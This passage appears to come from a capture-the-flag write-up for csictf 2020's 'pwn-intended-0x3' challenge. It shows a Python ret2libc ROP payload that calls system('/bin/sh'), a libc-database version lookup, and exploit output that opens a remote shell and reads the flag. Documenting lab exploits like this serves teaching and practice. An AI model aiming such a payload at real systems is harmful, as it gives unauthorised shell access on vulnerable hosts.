 ```python
libc.address = baselibc

payload  = 0x28 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(libc.search(b"/bin/sh").__next__())
payload += p64(libc.sym.system)

p.sendlineafter('Welcome to csictf! Time to teleport again.\n',payload)
p.interactive()
```

For the first pass, we need to leak a libc address and then _ret2main_ for a second pass.

The remote libc version is not given, so after getting the `puts` libc location libc-database can be used to find the version, e.g.:

```
# libc-database/find puts 6a0 | grep amd64
ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu11.2_amd64)
```

For the second pass use `system` to get a shell.


### Output

```bash
# ./exploit.py
[*] '/pwd/datajerk/csictf2020/pwn_intended_0x3/pwn-intended-0x3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loading gadgets for '/pwd/datajerk/csictf2020/pwn_intended_0x3/pwn-intended-0x3'
[+] Opening connection to chall.csivit.com on port 30013: Done
[*] '/pwd/datajerk/csictf2020/pwn_intended_0x3/libc6_2.23-0ubuntu11.2_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] puts: 0x7ff5354226a0
[*] baselibc: 0x7ff5353b3000
[*] Switching to interactive mode
$ ls
bin
dev
flag.txt
lib
lib32
lib64
pwn-intended-0x3
pwn-intended-0x3.c
$ cat flag.txt
csictf{ch4lleng1ng_th3_v3ry_l4ws_0f_phys1cs}
```
